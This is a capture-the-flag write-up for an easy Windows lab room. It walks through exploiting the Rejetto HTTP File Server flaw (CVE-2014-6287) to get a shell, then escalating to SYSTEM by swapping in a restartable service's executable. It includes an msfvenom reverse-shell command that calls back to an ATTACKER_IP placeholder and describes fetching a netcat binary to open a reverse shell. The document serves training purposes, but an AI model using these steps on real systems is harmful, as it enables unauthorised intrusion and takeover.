


| Difficulty |
| ---------- |
|   Easy     |

---

### [TASK 1] INTRODUCTION

### [ Deploy the machine. ]

Done!

---

### [ Who is the employee of the month? ]

Navigating to the IP address in our browser, we are brought to the following webpage:


To find out the name of the employee, we just have to save the image and his name is exposed as the filename of the image:


Alternatively, we could also look at the **source code** to find out his name.


**Bill Harper** is the employee of the month.

---

### [TASK 2] INITIAL ACCESS

### [ Scan the machine with nmap. What is the other port running a web server on? ]

Let's run a basic **Nmap** scan (top 1000 ports) with the following command:

``` 
nmap -sV -sC -vv 10.10.213.55
```


From the results, we see that the other port that a web server is running on is: **8080**

---

### [ Take a look at the other web server. What file server is running? ]

Accessing the other web server running on port 8080, we come to this website:


We see that the file server running is the **Rejetto HTTP File Server**.

---

### [ What is the CVE number to exploit this file server? ]

Doing a basic google search for the version number of Rejetto gives us the following [exploit](https://www.exploit-db.com/exploits/39161) on exploitdb:


The CVE for the exploit is: **2014-6287**

*I did not want to just use the exploit blindly, and wanted to at least have a bit of understanding of how it works. Doing some research, I found out that the exploit works by making use of an issue due to poor regex in the file **ParserLib.pas**:*

```
function findMacroMarker(s:string; ofs:integer=1):integer;

begin result:=reMatch(s, '\{[.:]|[.:]\}|\|', 'm!', ofs) end;
```

*The regex does not handle **nullbyte** requests, which means we can use `%00` to bypass the macro filters, then use '**save**' and '**exec**' macro commands to create a vbs file which we can then execute on the target system.*

*A VBS file is a Virtual Basic script written in the VBScript scripting language. It contains code that can be executed within Windows or Internet Explorer, via the Windows-based script host (Wscript.exe), to perform certain admin and processing functions.*

---

### [ Use Metasploit to get an initial shell. What is the user flag? ]

Now let's use metasploit to run this exploit. We load up metasploit by running `msfconsole`. 

Next, after finding the exploit in `msfconsole`, we set the appropriate options before using it:


We can then run the exploit, which gives us the following results:


A meterpreter shell was successfully opened. We're now logged in as the user **bill**!


We can then obtain **user.txt**, located on bill's desktop:


---

### [TASK 3] PRIVILEGE ESCALATION

### To enumerate this machine, we will use a powershell script called PowerUp, that's purpose is to evaluate a Windows machine and determine any abnormalities - "PowerUp aims to be a clearinghouse of common Windows privilege escalation vectors that rely on misconfigurations."

### [ You can download the script here. Now you can use the upload command in Metasploit to upload the script.] 

To download the PowerUp script, we simply git clone the [PowerSploit](https://github.com/PowerShellMafia/PowerSploit) repository onto our local machine. We then use Meterpreter's `upload` function to upload the PowerUp.ps1 script onto the target machine:


---

### [ To execute this using Meterpreter, I will type load powershell into meterpreter. Then I will enter powershell by entering powershell_shell ]

Following the room's instructions, we load in the Powershell module into meterpreter by running `load powershell`. This will allow us to execute the PowerUp script.

After loading in the powershell extension, we get new options available:


We enter powershell by running `powershell_shell`:



---

### [ Take close attention to the CanRestart option that is set to true. What is the name of the unquoted service path service name? ]

We run the PowerUp script with `.\PowerUp.ps1`, followed by typing in the command `Invoke-AllChecks`:


From the results, we find a service that has its **CanRestart** option set to true:


Hence, the name of the unquoted service path name is: **AdvancedSystemCareService9**

---

### The CanRestart option being true, allows us to restart a service on the system, the directory to the application is also write-able. This means we can replace the legitimate application with our malicious one, restart the service, which will run our infected program!

### [ Use msfvenom to generate a reverse shell as an Windows executable. ]

We want to open a reverse shell on the target machine. Let's first use `msfvenom` to generate the Windows reverse shell payload:

```
msfvenom -p windows/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4443 -e x86/shikata_ga_nai -f exe -o ASCService.exe
```


We save the payload name as **ASCService.exe** as it is the service file that we want to replace.

Next, we upload our reverse shell onto the target machine through meterpreter. This can be done with the `upload` command:


Navigating to the service directory, which is writable, we can see the file that we have to replace:


Now, we have to stop the service. From the PowerUp scan earlier, we saw that the restartable service is called **AdvancedSystemCare9**. We can stop this service with the `sc stop` command:


Next, I moved our reverse shell over to the service directory which contains the actual **ASCService.exe** file. This is done using the `move` command:


*One thing to note is that I tried other methods to overwrite the ASCService.exe file, including moving the payload to the directory first, and trying to delete the original service file. That did not work as I kept getting 'access denied' error. Also, I had the payload named as 'advanced.exe' first, and when I tried to rename it to 'ASCService.exe' inside the service directory, it would not let me. It seems that the safest bet would be to rename the payload to 'ASCService.exe' first, before copying it over to the target directory.*

Before starting the service, let's run a netcat listener on our local machine to catch the connection:


Now, let's use `sc start` to start the service again so that our reverse shell will be executed:


With that, the reverse shell is opened and we are in the machine as **NT Authority\System**:


**root.txt** can be found on the administrator's desktop:


---

### [TASK 4] ACCESS AND ESCALATION WITHOUT METASPLOIT

### [ Now let's complete the room without the use of Metasploit. For this we will utilize powershell and winPEAS to enumerate the system and collect the relevant information to escalate. To begin we shall be using the same CVE. However, this time let's use this exploit. Note that you will need to have a web server and a netcat listener active at the same time in order for this to work!* To begin, you will need a netcat static binary on your web server. If you do not have one, you can download it from GitHub! You will need to run the exploit twice. The first time will pull our netcat binary to the system and the second will execute our payload to gain a callback! ]

*(Machine was restarted for this section)*

First, we use `searchsploit` to search for and copy over the python exploit onto our local machine:


The exploit that we're interested in is:

```
Rejetto HTTP File Server (HFS) 2.3.x - Remote Command Execution (2)
```

We edit the exploit script and change the IP address and port inside to ours.

Note that in the exploit, they specifically mentioned that we should be running a web server hosting netcat. Fortunately for us, we can do that easily with using Python. 

Since we have already installed the **ncat.exe** file given in the task, all we have to do is host the HTTP webserver in the same directory as the file (as stated in the exploit, our webserver has to be running on port 80 as well): 



At the same time, we run a netcat listener to catch the connection:


With all of these steps done, we can run the exploit script. The exploit downloads our ncat.exe file onto the target machine, executes it and opens a reverse shell back to us!


---

### [ Congratulations, we're now onto the system. Now we can pull winPEAS to the system using powershell -c. Once we run winPeas, we see that it points us towards unquoted paths. We can see that it provides us with the name of the service it is also running. ]

From here, we shall use [WinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS) to enumerate the restartable service. 

To download the WinPEAS script over to the target machine, we host another python HTTP server and use `wget` to download the script over. To use wget on the target, we preface the command with `powershell -c`. 

**IMPORTANT:** we need to specify the `-outfile` name when using `wget` on Windows. Without it, the file would not have a name and hence, cannot be interacted with:


Now, we can just run WinPEAS and see what results we get:


Hence, we can see that WinPEAS manages to enumerate the **AdvancedSystemCareService9** service.

---

### [ What powershell -c command could we run to manually find out the service name? ] 

The command is:

```
powershell -c get-service
```

---

### [ Now let's escalate to Administrator with our new found knowledge. Generate your payload using msfvenom and pull it to the system using powershell. Now we can move our payload to the unquoted directory winPEAS alerted us to and restart the service with two commands. ]

We repeat the steps like before: generate the reverse shell using `msfvenom`, upload and replace the existing 'ASCService.exe' file, set up a netcat listener and finally, restart the 'AdvancedSystemCareService9' service using `sc stop` and `sc start`.

And voila, we're in as NT Authority\System yet again:


